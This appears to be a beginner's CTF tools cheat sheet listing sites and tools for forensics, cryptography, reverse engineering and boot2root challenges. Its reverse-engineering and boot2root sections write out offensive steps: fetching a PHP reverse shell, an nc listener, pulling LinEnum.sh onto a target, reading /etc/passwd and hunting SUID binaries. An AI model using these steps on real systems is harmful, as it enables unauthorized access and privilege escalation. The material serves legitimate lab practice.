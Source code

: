 # CTF TOOLS GUIDE

beginner: [CTFtime.org](http://CTFtime.org), ctflearn, pwntilldawn

discord:hacker101 & htb

`git remote add origin <https://github.com/sovayle/`>

# Forensics

software: HxD, Autopsy, hexeditor(linux)

# Web Exploitation

gobuster
requestbin.com

# Cryptography

websites: [hashes.com](http://hashes.com), crackstation, cyberchef
hashes.com hash identifier

python3 hash identifier
`wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py`

`python3 hash-id.py`

hash-identifier 7bf6d9bb82bed1302f331fc6b816aada

gpg --help
gpg --import tryhackme.key
gpg message.gpg
cat message


# Reverse Engineering

![RE example.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/720f4b35-149f-42ac-924a-4db489bc5b3a/RE_example.png)

![RE example2.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/56c5f5e9-f997-4663-9b5d-e0d5b96a9d3b/RE_example2.png)

![RE example3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6392dd19-8341-4097-880a-f4a2a8d9c73c/RE_example3.png)

wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 1234
upload reverse shell script
profit

wget hash identifier website

Remmina for RDP


# Binary Exploitation

# OSINT

# Steganography

# boot2root
exploitdb scripts
gtfobins

sudo -l

priviledge escalation
Linenum
**python3 -m http.server 8000**
**"wget"** on the target machine, and your local IP, you can grab the file from your local machine [2].

wget 10.4.20.232:8000/LinEnum.sh

Then make the file executable using the command **"chmod +x FILENAME.sh"**.

/etc/passwd 
/etc/shells
/etc/crontab

finding SUID binaries:
**find / -perm -u=s -type f 2>/dev/null**


# Programming (Development challenges)